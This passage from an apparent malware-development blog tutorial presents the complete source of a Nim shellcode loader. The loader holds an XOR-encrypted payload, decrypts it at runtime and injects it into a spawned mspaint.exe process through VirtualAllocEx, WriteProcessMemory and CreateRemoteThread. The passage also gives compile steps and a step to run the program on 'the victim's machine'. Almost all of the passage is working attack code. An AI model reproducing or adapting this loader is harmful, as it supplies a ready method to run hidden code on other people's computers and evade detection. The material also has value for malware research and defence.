    

Run it for getting encrypted payload:     

```powershell
.\xorE.exe
```

     

Then, put this encrypted shellcode to our new example's source code:    

```nim
let encrypted: seq[byte] = @[
0x91, 0x2D, 0xEE, 0x93, 0x9D, 0x9A, 0x90, 
0x88, 0x85, 0xB5, 0x6F, 0x77, 0x6D, 0x24, 0x3E, 0x36, 0x3D, 0x37, 0x3E, 
0x21, 0x25, 0x54, 0xBD, 0x12, 0x25, 0xEE, 0x3D, 0x17, 0x53, 0x2D, 0xE4, 
0x25, 0x75, 0x5B, 0x27, 0xFC, 0x3F, 0x45, 0x51, 0x3F, 0xE6, 0x17, 0x3F, 
0x49, 0x25, 0x6A, 0xD8, 0x3D, 0x27, 0x28, 0x5E, 0xBE, 0x25, 0x54, 0xAF, 
0xDB, 0x51, 0x04, 0x13, 0x75, 0x41, 0x45, 0x2E, 0xB6, 0xA4, 0x68, 0x2E, 
0x76, 0xAC, 0x87, 0x82, 0x25, 0x2C, 0x34, 0x51, 0x3F, 0xE6, 0x37, 0x4F, 
0x49, 0xE6, 0x27, 0x53, 0x3F, 0x6C, 0xB5, 0x51, 0xFC, 0xED, 0xED, 0x6F, 
0x77, 0x6D, 0x2D, 0xEA, 0xB7, 0x19, 0x0A, 0x27, 0x76, 0xBD, 0x35, 0x51, 
0xFC, 0x25, 0x7D, 0x51, 0x33, 0xE6, 0x25, 0x4F, 0x3E, 0x6C, 0xB5, 0x8C, 
0x2B, 0x25, 0x9A, 0xA6, 0x49, 0x2C, 0xEE, 0x5B, 0xFF, 0x25, 0x64, 0xB9, 
0x3A, 0x5C, 0xAC, 0x27, 0x46, 0xAD, 0xC9, 0x2E, 0xB6, 0xA4, 0x68, 0x2E, 
0x76, 0xAC, 0x5D, 0x8F, 0x02, 0x9C, 0x5B, 0x23, 0x74, 0x21, 0x41, 0x67, 
0x32, 0x54, 0xB4, 0x1A, 0xA1, 0x35, 0x5B, 0x2B, 0xFC, 0x2D, 0x41, 0x26, 
0x76, 0xBD, 0x03, 0x51, 0x36, 0xE6, 0x69, 0x27, 0x49, 0x29, 0xEE, 0x2F, 
0x6B, 0x24, 0x64, 0xBF, 0x49, 0x2C, 0xEE, 0x6B, 0xFF, 0x25, 0x64, 0xBF, 
0x36, 0x35, 0x24, 0x37, 0x29, 0x34, 0x3F, 0x2E, 0x2F, 0x2C, 0x3C, 0x2E, 
0x2D, 0x25, 0xE6, 0x83, 0x57, 0x2C, 0x37, 0x90, 0x97, 0x35, 0x24, 0x36, 
0x2D, 0x53, 0x2D, 0xE4, 0x65, 0x84, 0x2C, 0x90, 0x88, 0x92, 0x38, 0x26, 
0xB0, 0xAC, 0x65, 0x6F, 0x77, 0x6D, 0x5B, 0x27, 0xFA, 0xF8, 0x9B, 0x6F, 
0x77, 0x6D, 0x5B, 0x23, 0xFA, 0xE8, 0x6C, 0x6E, 0x77, 0x6D, 0x2D, 0x5E, 
0xBE, 0x2C, 0xDF, 0x2A, 0xF4, 0x3B, 0x62, 0x90, 0xA2, 0x25, 0x54, 0xA6, 
0x36, 0xD7, 0x95, 0xDA, 0xD5, 0x3B, 0x9A, 0xBA, 0x1A, 0x08, 0x0A, 0x18, 
0x5A, 0x00, 0x00, 0x00, 0x00, 0x4C, 0x65, 0x0C, 0x16, 0x19, 0x65]
```

So, the full final source code is looks like this:    

```nim
import osproc
import winim

proc xorEnc(data: seq[byte], key: seq[byte]): seq[byte] =
    var enc: seq[byte]
    for i in 0 ..< len(data):
        enc.add(data[i] xor key[i mod len(key)])
    result = enc

let process = startProcess("mspaint.exe")
echo "started  process: ", process.processID

let ph = winim.OpenProcess(
    PROCESS_ALL_ACCESS,
    false,
    cast[DWORD](process.processID)
)

let mykey: seq[byte] = @[0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77]
let encrypted: seq[byte] = @[
0x91, 0x2D, 0xEE, 0x93, 0x9D, 0x9A, 0x90, 
0x88, 0x85, 0xB5, 0x6F, 0x77, 0x6D, 0x24, 0x3E, 0x36, 0x3D, 0x37, 0x3E, 
0x21, 0x25, 0x54, 0xBD, 0x12, 0x25, 0xEE, 0x3D, 0x17, 0x53, 0x2D, 0xE4, 
0x25, 0x75, 0x5B, 0x27, 0xFC, 0x3F, 0x45, 0x51, 0x3F, 0xE6, 0x17, 0x3F, 
0x49, 0x25, 0x6A, 0xD8, 0x3D, 0x27, 0x28, 0x5E, 0xBE, 0x25, 0x54, 0xAF, 
0xDB, 0x51, 0x04, 0x13, 0x75, 0x41, 0x45, 0x2E, 0xB6, 0xA4, 0x68, 0x2E, 
0x76, 0xAC, 0x87, 0x82, 0x25, 0x2C, 0x34, 0x51, 0x3F, 0xE6, 0x37, 0x4F, 
0x49, 0xE6, 0x27, 0x53, 0x3F, 0x6C, 0xB5, 0x51, 0xFC, 0xED, 0xED, 0x6F, 
0x77, 0x6D, 0x2D, 0xEA, 0xB7, 0x19, 0x0A, 0x27, 0x76, 0xBD, 0x35, 0x51, 
0xFC, 0x25, 0x7D, 0x51, 0x33, 0xE6, 0x25, 0x4F, 0x3E, 0x6C, 0xB5, 0x8C, 
0x2B, 0x25, 0x9A, 0xA6, 0x49, 0x2C, 0xEE, 0x5B, 0xFF, 0x25, 0x64, 0xB9, 
0x3A, 0x5C, 0xAC, 0x27, 0x46, 0xAD, 0xC9, 0x2E, 0xB6, 0xA4, 0x68, 0x2E, 
0x76, 0xAC, 0x5D, 0x8F, 0x02, 0x9C, 0x5B, 0x23, 0x74, 0x21, 0x41, 0x67, 
0x32, 0x54, 0xB4, 0x1A, 0xA1, 0x35, 0x5B, 0x2B, 0xFC, 0x2D, 0x41, 0x26, 
0x76, 0xBD, 0x03, 0x51, 0x36, 0xE6, 0x69, 0x27, 0x49, 0x29, 0xEE, 0x2F, 
0x6B, 0x24, 0x64, 0xBF, 0x49, 0x2C, 0xEE, 0x6B, 0xFF, 0x25, 0x64, 0xBF, 
0x36, 0x35, 0x24, 0x37, 0x29, 0x34, 0x3F, 0x2E, 0x2F, 0x2C, 0x3C, 0x2E, 
0x2D, 0x25, 0xE6, 0x83, 0x57, 0x2C, 0x37, 0x90, 0x97, 0x35, 0x24, 0x36, 
0x2D, 0x53, 0x2D, 0xE4, 0x65, 0x84, 0x2C, 0x90, 0x88, 0x92, 0x38, 0x26, 
0xB0, 0xAC, 0x65, 0x6F, 0x77, 0x6D, 0x5B, 0x27, 0xFA, 0xF8, 0x9B, 0x6F, 
0x77, 0x6D, 0x5B, 0x23, 0xFA, 0xE8, 0x6C, 0x6E, 0x77, 0x6D, 0x2D, 0x5E, 
0xBE, 0x2C, 0xDF, 0x2A, 0xF4, 0x3B, 0x62, 0x90, 0xA2, 0x25, 0x54, 0xA6, 
0x36, 0xD7, 0x95, 0xDA, 0xD5, 0x3B, 0x9A, 0xBA, 0x1A, 0x08, 0x0A, 0x18, 
0x5A, 0x00, 0x00, 0x00, 0x00, 0x4C, 0x65, 0x0C, 0x16, 0x19, 0x65]

when isMainModule:
    let payload = xorEnc(encrypted, mykey)
    let mem = VirtualAllocEx(
        ph,
        NULL,
        cast[SIZE_T](encrypted.len),
        MEM_COMMIT,
        PAGE_EXECUTE_READ_WRITE
    )
    var btw: SIZE_T
    let wp = WriteProcessMemory(
        ph,
        mem,
        unsafeAddr payload[0],
        cast[SIZE_T](encrypted.len),
        addr btw
    )
    echo "writeprocessmemory: ", bool(wp)
    let th = CreateRemoteThread(
        ph,
        NULL,
        0,
        cast[LPTHREAD_START_ROUTINE](mem),
        NULL,
        0,
        NULL
    )
    echo "successfully inject to process: ", process.processID
    echo "thread Handle: ", th
```

### demo 2

Let's go to look everything in action. Compile our Nim malware:    

```bash
nim c -d:mingw --cpu:amd64 hack2.nim
```

    

Then, run it on the victim's machine:     

```powershell
.\hack2.exe
```

    

    

As you can see, everything is worked perfectly!    

I hope this post is useful for malware researchers, C/C++ programmers and offensive security professionals.     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*    